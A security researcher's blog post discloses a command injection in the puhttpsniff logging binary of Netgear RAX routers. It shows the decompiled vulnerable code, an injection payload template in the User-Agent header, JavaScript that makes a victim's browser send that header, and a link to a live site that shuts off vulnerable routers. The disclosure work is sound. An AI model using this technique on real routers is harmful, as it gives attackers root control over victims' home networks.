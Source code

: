 ```yaml
---
title: "PwnAgent: A One-Click WAN-side RCE in Netgear RAX Routers"
layout: post
tags: [bug-hunting]
description: "A breakdown of a bug SEFCOM T0 and I exploited to achieve a WAN-side RCE in some Netgear RAX routers for pwn2own 2022. The bug is remote accessible command injection due to bad packet logging."
toc: true
---
```


Last December, my colleagues and I from [SEFCOM T0](https://sefcom.asu.edu/T0) competed in pwn2own 2022 where we [demonstrated an exploit to get RCE](https://twitter.com/mahal0z/status/1600322330970173441?s=20) in a Synology NAS. Although we were proud of this complicated exploit, we had a _much_ simpler, but more impactful, bug in another target that we never got to demo. That target was the [Netgear Nighthawk RAX30 Router](https://www.netgear.com/support/product/rax30.aspx), one of the latest and greatest models you can buy. Days before the competition, Netgear patched the bug in the _RAX30 Router_, the only model at pwn2own, eliminating our submission 😭. 

Netgear classified this [patch](https://kb.netgear.com/000065451/Security-Advisory-for-Multiple-Vulnerabilities-on-the-RAX30-PSV-2022-0028-PSV-2022-0073) as a LAN-side RCE; however, this bug can be easily exploited on WAN-side. Additionally, this bug _may still_ be present in the latest firmware of some of the **other** RAX models. In an exploration of some recent RAX versions, it's clear the code is shared. We believe Netgear knows about these bugs in the other firmware, but has delayed in pushing a fix for a while. Curious if your router is one of these affected models? Read on, we have a live demo running. 

Before talking about any of the _how_, let's talk about the impacts.

## Exploit Impacts
To exploit this bug on a victim router the attacker needs to do two things:
1. Setup a controlled website hosted on port 80 
2. Get the victim to visit the attacker's site from behind the victim's router 

This results in the attacker getting a RCE on the victim's router. For most RAX routers, this RCE is root, giving the attacker full control of your router. In the unfortunate scenario that you run nginx behind your vulnerable RAX router, this bug can be exploited with **0** interaction from you 🫢. 

For others newer to hacking routers, a root shell on a router (over remote) can allow an attacker to snoop on everything you visit (like a bad ISP 😬), read unencrypted traffic, mess with your DNS, and [do other nasty things](https://nordsecurity.com/blog/what-happens-when-router-is-hacked).

We don't know how many routers this affects, but, we do know this binary is shared by many. At the very least, if you are running a Netgear Nighthawk RAX30 Router that has not been updated since December of 2022, you are WAN-side pwnable. 

## Exploit Demo
We've created a fun (and safe 👌) way to know if your router is pwned. Visit this ☢️ [http://pwn.mahaloz.re](http://pwn.mahaloz.re) ☢️. If your router is vulnerable, it will shut your router off (and that is all). If you can refresh the page after visiting, it means your router is safe (hopefully). 

I also demoed the LAN-side exploit of this bug at [CactusCon 2023](https://youtu.be/-J8fGMt6UmE?t=23304) if you just want to watch a video :). Alright, let's get down to what this powerful bug is...

## The Bug
This bug was initially discovered by [@clasm](https://twitter.com/cl4sm), then reversed by me, and assisted by the rest of T0 team. For the rest of this blog, we will only reference the layout of the RAX30 firmware, as things may be slightly different in each model. The bug exists in a nonchalant binary in `/bin` called `puhttpsniff`. 

The `puhttpsniff` binary is responsible for logging tcp traffic on port 80. It will **only** log traffic that is leaving a local IP. This means the only traffic that gets recorded will be from devices already on the router. 

Every packet that meets these requirements will be logged. It will log the `UserAgent` and the IP. The logging is done using an [NFLOG](https://serverfault.com/questions/610989/linux-nflog-documentation-configuration-from-c) callback in user-space. That callback is implemented in a single function in `puhttpsniff`. Here is **all** the code of the callback function called when a packet meets the above requirements: 

### Function 0x10FF8
```c
char *__fastcall injection_func(const char *header_data, int header_len, int a3, const char *a4)
{
  char *result; // r0
  int v8[64]; // [sp+0h] [bp-318h] BYREF
  char v9[4]; // [sp+100h] [bp-218h] BYREF
  char v10[508]; // [sp+104h] [bp-214h] BYREF

  memset(v8, 0, sizeof(v8));
  *(_DWORD *)v9 = 0;
  result = (char *)memset(v10, 0, sizeof(v10));
  if ( header_len > 9 )
  {
    header_data[header_len] = 0;
    result = strstr(header_data, "User-Agent: ");
    if ( result )
    {
      _isoc99_sscanf(result + 12, "%255[^\r\n]", v8);
      sprintf(v9, "pudil -i %s \"%s\"", a4, (const char *)v8);
      return (char *)system(v9);
    }
  }
  return result;
}
```

The entire function is no more than 25 lines and has a glaring bug in the way `User-Agent` is used. The key lines are:
```c
_isoc99_sscanf(result + 12, "%255[^\r\n]", v8);
sprintf(v9, "pudil -i %s \"%s\"", a4, (const char *)v8);
return (char *)system(v9);
```

Yes, it's a textbook command injection. You only need to escape the quotes, which can be triggered like so:
```python
'User-Agent: "; {evil_command_here};"'
```

If you were paying attention earlier, you might recall that this should only be triggerable via LAN like the original Netgear report:
> "It will only log traffic that is leaving a local IP."

How could you, from the outside, control the UserAgent of a device on the inside of the router? Thanks to the web wisdom of [Adam Doupe](https://adamdoupe.com/), who was only passing by when we mentioned the bug, we found that Javascript can request arbitrary UserAgent responses from executors. Javascript, when loaded by your browser, can ask you to send certain requests that have server-requested UserAgents. 

Tested on the latest Firefox as of this post, you can request a custom UserAgent from visitors with the following JavaScript:
```html
<script>Object.defineProperty(navigator, 'userAgent', {{
        get: function () {{ return 'TEST'; }}
    }});
    const xhr = new XMLHttpRequest()
    xhr.open("GET", "/")
    xhr.setRequestHeader("User-Agent", '"; {evil_command_here};"');
    xhr.send()
</script>
```

With this in mind, the execution of the exploit goes something like this:

1. A victim get's on his router and is assigned an IP: `192.168.1.2`
2. The victim goes on Firefox and clicks link `malicious.site`
3. `malicious.site` send `192.168.1.2` the code of the site to render locally
4. `192.168.1.2` sees Javascript and executes the code
5. `192.168.1.2` sends an attacker controlled UserAgent back to `malicious.site`
6. In transit, the victim router records `192.168.1.2` UserAgent and gets pwned 

Take note that this also works for devices (or services) that just forward packets. In the case of an nginx server, which forwards packets, an attacker can simply send a custom UserAgent directly to the forwarding service. The service sends out the packet using a local IP which will be logged. 

This bug is very simple to understand, but, in practice, hard to automatically find. In the case of fuzzing, you would rapidly trigger this bug if you rapidly sent randomized packets to the router, but detecting that you triggered it is hard. If you did not know this was a command injection, it would look like nothing happened. The `system` called would go undetected if you did not already have full system emulation, AND, the `puhttpsniff` would not crash. 

I thought the simplicity of exploitation for this bug, and the strange place it occurred, warranted a fun bug name. I named it `PwnAgent`, since I really never thought a device would mess up parsing of the UserAgent. 

## Bug Discovery

At SEFCOM, we had a bunch of automated tooling and techniques to discover bugs that we used for our targets; however, this bug was ironically discovered manually while waiting for those tools.

Since we already had a testing shell on the device using `telnetenable`, clasm decided to look at which binaries we running by default on the router. He opened each of the binaries and did a quick search for use of `system`. One of the first binaries he opened was `puhttpsniff`. On **October 4th** he found the bug: 

![]({{ site.baseurl}}/assets/images/research/pwnagent/pwnagent_1.png)

Then by **October 5th**, we had a full end-to-end LAN exploit working after reversing how packets hit the callback function which we originally thought was un-triggerable:

![]({{ site.baseurl}}/assets/images/research/pwnagent/pwnagent_2.png)

It wasn't until later that month that we realized the exploit could be elevated to a WAN side attack. 

## Conclusion

I think there are a few interesting takeaways here. First, there are still _many_ trivial bugs that can be found with a fast decompiler and `grep` in embedded devices. Second, although this bug is easy to understand, automated analysis for embedded devices is still a _long_ way away from being able to detect a bug like this. Recall, to detect this bug you needed:
1. Full system emulation (hard)
2. Automated fuzz harnessing (hard)

At least publicly, we have neither of those things. To make the internet of things safer, we need to make moves in increasing automated analysis of firmware. If you know anyone with a Netgear router, please tell them to update their router to be on the safe side. 

